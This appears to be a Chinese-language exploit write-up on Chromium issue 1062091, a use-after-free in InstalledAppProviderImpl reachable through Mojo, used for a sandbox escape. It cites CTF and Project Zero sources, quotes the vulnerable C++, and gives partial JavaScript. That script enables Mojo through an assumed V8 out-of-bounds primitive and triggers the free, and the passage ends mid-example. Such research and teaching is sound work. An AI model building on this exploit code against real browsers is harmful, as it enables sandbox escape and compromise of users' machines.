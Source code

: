 ## 前言

感谢大佬们的无私分享：

Mojo基础：https://keyou.github.io/blog/2020/01/03/Chromium-Mojo&IPC/

p0 sandbox escape：https://googleprojectzero.blogspot.com/2019/04/virtually-unlimited-memory-escaping.html

plaidctf2020mojo：https://eternalsakura13.com/2020/09/20/mojo/#more

issue1062091漏洞利用的详细分析: https://blog.theori.io/research/escaping-chrome-sandbox/

SCTF2020 EasyMojo：https://github.com/SycloverSecurity/SCTF2020/tree/master/Pwn/EasyMojo

D^3CTF EasyChromeFullChain：https://mp.weixin.qq.com/s/Gfo3GAoSyK50jFqOKCHKVA

以下漏洞利用都是基于这些文章的基础，再加上自己的一点点理解，就不多说漏洞原理了（俺讲不清楚，，，），以上文章中就有详细的分析

## 调试环境

window 10 x64 2004

chromium 81.0.4044.0：https://chromium.cypress.io/win64/beta/81.0.4044.69 （下载地址）

## 漏洞利用

### 触发UAF

该漏洞是因为InstalledAppProviderImpl里保存一个了render_frame_host_的原始指针，但是并没有通过任何方法来将InstalledAppProviderImpl和RenderFrameHost的生命周期绑定，所以我们可以free frame来释放掉对应的render_frame_host，而我们此时只要保持住InstalledAppProviderImpl的ptr，就可以通过FilterInstalledApps来触发UAF：

```cpp
void InstalledAppProviderImpl::FilterInstalledApps(
    std::vector<blink::mojom::RelatedApplicationPtr> related_apps,
    const GURL& manifest_url,
    FilterInstalledAppsCallback callback) {
  if (render_frame_host_->GetProcess()->GetBrowserContext()->IsOffTheRecord()) {		// UAF
    std::move(callback).Run(std::vector<blink::mojom::RelatedApplicationPtr>());
    return;
  }
  ...
}
```

在查看了[issue1062091漏洞利用的详细分析](https://blog.theori.io/research/escaping-chrome-sandbox/)和[D^3CTF EasyChromeFullChain WP](https://mp.weixin.qq.com/s/Gfo3GAoSyK50jFqOKCHKVA)两篇文章之后，我们可以先创建一个sub frame中绑定一个InstalledAppProvider接口，将其对象传递给main frame，在释放sub frame，在main frame中使用sub fream传入的InstalledAppProvider接口对象来调用其FilterInstalledApps方法，就能触发UAF：

```javascript
// child.html
if(typeof(Mojo) !== "undefined"){
	print("[ Mojo interface enabled ]");
	pipe = Mojo.createMessagePipe();
	Mojo.bindInterface(blink.mojom.InstalledAppProvider.name,
		pipe.handle1, "context", true);
	installAppProviderPtr = new blink.mojom.InstalledAppProviderPtr(pipe.handle0);
	installAppProviderPtr.filterInstalledApps([], new url.mojom.Url({url: window.location.href}));
}else{
	print("[*] start enable Mojo.");
	let oob = new GetOOB();					// use v8 vuln to get oob read and write ability
	enable_mojo(oob);
	window.location.reload();
}

// in main frame
```